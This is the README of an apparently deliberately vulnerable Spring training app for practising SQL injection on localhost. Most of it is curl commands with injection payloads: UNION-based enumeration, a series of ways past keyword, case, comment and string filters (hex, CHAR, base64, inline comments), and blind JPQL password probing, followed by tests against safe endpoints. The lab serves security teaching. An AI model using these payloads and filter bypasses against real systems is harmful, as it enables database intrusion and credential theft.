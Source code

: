 # SQLi vulnerable Spring Application

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

Use 

```
curl localhost:5808/sqlidemo/vulnbyid -d id -d blacklistconfig=help
```

to get a help display of all possible blacklist configurations.

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=add_oddsinglequotes
```

or as keyword

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=add_oddsinglequotes
```

##### Any Uppercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) -- " -d blacklistconfig=block_anyuppercase
```

##### Any Lowercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=block_anylowercase
```

##### Keyword Sequences Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(@@version) -- " -d blacklistconfig=block_keywordsequences
```

##### Comment Double Dash Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) #" -d blacklistconfig=block_comment_doubledash
```

##### All Comment Types Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=block_comment_doubledash,block_comment_hash
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) -- " -d blacklistconfig=block_badstrings
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N') -- " -d blacklistconfig=block_badstrings
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- " -d blacklistconfig=block_badstrings,block_concatenation
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64,block_char_function
```

##### All together

```
curl http://localhost:5808/sqlidemo/vulnbyid \       
\
-d id=\                                                                    
"1' unionunion select select null,null,(select variable_value from \       
information_schema.global_variables where variable_name=0x56455253494f4e) \
as username from user where id='1" \
\                       
-d blacklistconfig=\      
add_oddsinglequotes,\     
strip_keywordsequences,\  
block_comment_doubledash,\
block_comment_hash,\ 
block_anyuppercase,\ 
block_badstrings,\   
block_concatenation,\
block_base64,\     
block_char_function
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### Java based

```
curl localhost:5808/sqlidemo/safebyid -d id="1' AND SUBSTRING(password,1,1)='p"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/safebyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
